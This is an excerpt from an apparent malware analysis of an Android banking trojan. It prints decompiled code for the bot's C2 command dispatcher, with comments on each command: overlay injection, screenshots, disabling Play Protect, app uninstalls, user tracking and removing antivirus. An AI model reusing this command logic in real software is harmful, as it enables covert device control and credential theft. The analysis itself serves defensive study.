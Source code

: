 These are **not** all the commands which are recived by the malware from the C2 server such as 


```cs
 try {
                JSONObject jSONObject2 = new JSONObject(s5);
                if(jSONObject2.has("COMMAND")) {
                    String s6 = jSONObject2.getString("COMMAND");
                    RunnablePingServer.errorsCount = 0;
                    if(s6.equals("NEW_URL")) { // Update the C2 server URL
                        String s7 = jSONObject2.getString("URL");
                        globalService0.Tools.Log(globalService0, "[COMMANDS] Set new URL to: " + s7, Boolean.valueOf(true));
                        globalService0.store.set(globalService0, "URL", s7);
                    }
                    else if(s6.equals("CHANGE_URL")) {
                        String s8 = jSONObject2.getString("URL");
                        globalService0.Tools.changeMainURL(globalService0, s8);
                    }
                    else if(s6.equals("TAKE_SCREENSHOT")) {
                        globalService0.Tools.takeScreenshot(globalService0);
                    }
                    else if(s6.equals("UNLOCK_PLAYSTORE")) { //disable play protect
                        globalService0.Tools.unlockPlayStore(globalService0);
                    }
                    else if(s6.equals("SAVE_LOGCAT")) { // save logs file from the device
                        globalService0.Tools.saveLogCat(globalService0);
                    }
                    else if(s6.equals("KILL")) { // to disable the bot
                        globalService0.Tools.killBot(globalService0);
                    }
                    else {
                        boolean z1 = s6.equals("START_INJ"); // start performing the overlay attack
                        if(z1) {
                            String s11 = jSONObject2.getString("PKG");
                            globalService0.Tools.startInj(globalService0, s11);
                        }
                        else if(s6.equals("START_APP")) { // to open any app
                            String s12 = jSONObject2.getString("PKG");
                            globalService0.Tools.startApp(globalService0, s12);
                        }
                        else if(s6.equals("GET_APPS")) {// get installed apps on the device
                            globalService0.Tools.getInstalledApps(globalService0);
                        }
                        else if(s6.equals("UNINSTALL_APP")) { // uninstall any specific app
                            String s13 = jSONObject2.getString("PKG");
                            String s14 = jSONObject2.getString("SELF");
                            globalService0.Tools.uninstall(globalService0, s13, s14);
                        }
                    }
                    else {
                            boolean z2 = s6.equals("TRACKING_ON"); // Track the movement of the user
                            if(z2) {
                                globalService0.store.set(globalService0, "NOTIFY_PKG_CHANGE", "true");
                                Utils.msg(globalService0, "Tracking movement is ON");
                            }
                            else if(s6.equals("TRACKING_OFF")) { // stop tracking
                                globalService0.store.set(globalService0, "NOTIFY_PKG_CHANGE", "false");
                                Utils.msg(globalService0, "Tracking movement is OFF");
                            }
                            else if(s6.equals("CLEAN_AV")) { // uninstall AV if found
                                globalService0.Tools.uninstall_av(globalService0);
```